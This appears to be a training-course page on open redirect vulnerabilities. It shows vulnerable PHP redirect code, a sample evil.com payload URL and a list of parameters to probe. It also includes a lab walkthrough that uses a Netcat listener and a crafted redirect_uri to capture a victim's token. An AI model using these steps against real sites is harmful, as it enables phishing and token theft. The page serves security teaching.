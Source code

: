 # Open Redirect

An Open Redirect vulnerability occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality. In such cases, all the attacker has to do is specify a website under their control in a redirection URL of a legitimate website and pass this URL to the victim. As you can imagine, this is possible when the legitimate application's redirection functionality does not perform any kind of validation regarding the websites to which the redirection points. From an attacker's perspective, an open redirect vulnerability can prove extremely useful during the initial access phase since it can lead victims to attacker-controlled web pages through a page that they trust.

Let us take a look at some code.

```php
$red = $_GET['url'];
header("Location: " . $red);
```

```php
$red = $_GET['url'];
```

In the line of code above, a variable called _red_ is defined that gets its value from a parameter called _url_. _$\_GET_ is a PHP superglobal variable that enables us to access the _url_ parameter value.

```php
header("Location: " . $red);
```

The Location response header indicates the URL to redirect a page to. The line of code above sets the location to the value of _red_, without any validation. We are facing an Open Redirect vulnerability here.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows: `trusted.site/index.php?url=https://evil.com`

Make sure you check for the following URL parameters when bug hunting, you'll often see them in login pages. Example: `/login.php?redirect=dashboard`

* ?url=
* ?link=
* ?redirect=
* ?redirecturl=
* ?redirect\_uri=
* ?return=
* ?return\_to=
* ?returnurl=
* ?go=
* ?goto=
* ?exit=
* ?exitpage=
* ?fromurl=
* ?fromuri=
* ?redirect\_to=
* ?next=
* ?newurl=
* ?redir=

***

## Open Redirect Example

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`oredirect.htb.net`) to access the application.

Navigate to `oredirect.htb.net`. You will come across a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the _redirect\_uri_ parameter. A _token_ is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Let us test if we can control the site where the _redirect\_uri_ parameter points to. In other words, let us check if the application performs the redirection without any kind of validation (Open Redirect).

We can test that as follows.

First, let us set up a Netcat listener.

```shell-session
$ nc -lvnp 1337
```

Copy the entire URL where you landed after navigating to `oredirect.htb.net`. It should be a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Then, edit this URL as follows.

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

`<RANDOM TOKEN ASSIGNED BY THE APP>` <-- Replace this with the token that is assigned automatically by the application.

Open a `New Private Window` and navigate to the link above to simulate the victim.

When the victim enters their email, we notice a connection being made to our listener. The application is indeed vulnerable to Open Redirect. Not only that, but the captured request also includes the token!

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Open redirect vulnerabilities are usually exploited by attackers to create legitimate-looking phishing URLs. As we just witnessed, though, when a redirection functionality involves user tokens (regardless of GET or POST being used), attackers can also exploit open redirect vulnerabilities to obtain user tokens.

The following section will provide some prevention advice related to the covered vulnerabilities.
